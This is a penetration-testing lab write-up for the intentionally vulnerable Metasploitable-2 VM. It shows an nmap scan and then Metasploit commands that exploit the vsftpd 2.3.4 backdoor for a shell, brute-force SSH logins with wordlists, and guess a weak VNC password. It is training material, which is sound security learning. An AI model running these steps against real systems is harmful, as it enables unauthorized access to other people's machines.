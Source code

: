 # 🔍 Metasploitable-2 Write UP🔓🛡

### Getting the IP address of the target machine

I used arp-sca -l to get the local ip of the target machine 

> Target ip -> 192.168.100.8

### Scan the target machine using nmap

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/m3taspl1abl3]
└─$ nmap -sV 192.168.100.8 -o nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 14:50 EDT
Nmap scan report for 192.168.100.8
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:CF:4C:27 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds



```

So here I got the many ports open to penetrate. Lets exploit it one by one

### Exploiting FTP
Here the version of ftp on target machine is vsftpd 2.3.4, lets search for any exploits that are available in metasploit console

![ftp exploit search](screenshots/exp1.png)

Here I got the the exploit using the search command in msfconsole, lets use it to exploit the target

```bash

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 


```

here we are ready with payload to exploit the target, now we have to set some parameters to run the exploit

use the `show option` command to get the options 

![payload options](screenshots/opt1.png)

Here it says we have to set rhost that is target ip, we can use

```bash
set rhost 192.168.100.8
```

and then run/exploit command to execute the payload on target machine

![ftp exploited](screenshots/ftp-done.png)

Here our exploit works and we got the reverse tcp shell of the target machine.

### Exploiting SSH using metasploit

As we know ssh port(22) is open lets see we can exploit it using meatasploit
![ssh exploit](screenshots/ssh_1.png)

Here I got this exploits, and I will be using `auxiliary/scanner/ssh/ssh_login `
It has many options lets set the required one first

```bash

set RHOSTS 192.168.100.8
set USER_FILE username.txt # to set a text file  for usernames where each line has expected username
set PASS_FILE passwd.txt # to set a password text file to check using each user specified above
set VERBOSE true  # to print all backgound processing 
```

Lets Exploit....

![ssh shell exploited](screenshots/ssh_2.png)

### Exploiting VNC Server

VNC Server is running on port 5900
VNC is remote desktop service through which we can get the remote access of the system

Let's use `auxiliary/scanner/vnc/vnc_login` module and try to exploit it

here I need to set only one option for this module:

```bash
set rhost 192.168.100.8 # target ip addr
```

```bash

msf6 auxiliary(scanner/vnc/vnc_login) > exploit
[*] 192.168.100.8:5900    - 192.168.100.8:5900 - Starting VNC login sweep
[!] 192.168.100.8:5900    - No active DB -- Credential data will not be saved!
[+] 192.168.100.8:5900    - 192.168.100.8:5900 - Login Successful: :password
[*] 192.168.100.8:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/vnc/vnc_login) > 

```

Here we got the password value that is `password`, lets try logging in VNC 

![VNC Connected](screenshots/vnc.png)

Here the credentials worked and we got the VNC access